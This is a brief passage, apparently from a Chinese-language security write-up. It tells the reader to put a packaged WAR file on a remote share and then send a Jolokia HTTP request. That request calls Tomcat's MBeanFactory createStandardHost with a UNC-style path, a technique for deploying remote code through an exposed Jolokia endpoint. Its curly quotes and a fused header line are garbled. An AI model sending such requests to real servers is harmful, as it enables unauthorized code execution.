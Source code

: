 接着打包成 war 文件放在远程的共享服务器上面，发送如下请求即可：

```
POST /jolokia HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 192 `{

“mbean”: “Tomcat:type=MBeanFactory”,

“type”: “EXEC”,

“operation”: “createStandardHost”,

“arguments”: [“Tomcat:type=Engine”, “test2”, “\127.0.0.1\test”, true, true, true, true]

}` 
```